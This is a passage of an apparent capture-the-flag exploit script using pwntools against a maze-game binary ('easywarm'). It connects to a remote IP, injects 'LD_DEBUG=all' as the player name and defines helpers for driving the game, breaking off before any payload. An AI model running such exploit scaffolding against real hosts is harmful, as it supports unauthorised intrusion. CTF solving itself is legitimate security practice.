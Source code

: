 from pwn import *

import collections

​

context.arch = ‘amd64’

#r = process([“./easywarm”, “000”])

r = remote(‘39.105.134.183’, 18866)

​

r.sendlineafter(“Give me your name: “, “LD_DEBUG=all”)

​

_length = None

​

def new_game(complexity, length):

  global _length

  _length = length + 4

  r.sendlineafter(“[-] “, “1”)

  r.sendlineafter(“Maze’s complexity: “, str(complexity))

  r.sendlineafter(“Maze’s length: “, str(length))

  r.recvuntil(“[+] Successfully created a new game!”)

​

def feed_challenge(solution, newline=True):

  r.sendlineafter(“[-] “, “3”)

  if newline:

    r.sendlineafter(“input: “, solution)

  else:

    r.sendafter(“input: “, solution)

  r.recvuntil(“find the flag!”)

​

def show_map():

  r.sendlineafter(“[-] “, “4”)

  board = r.recvlines(_length)

  sanitized = []

  for row in board:

    row = row.decode(“utf-8”)
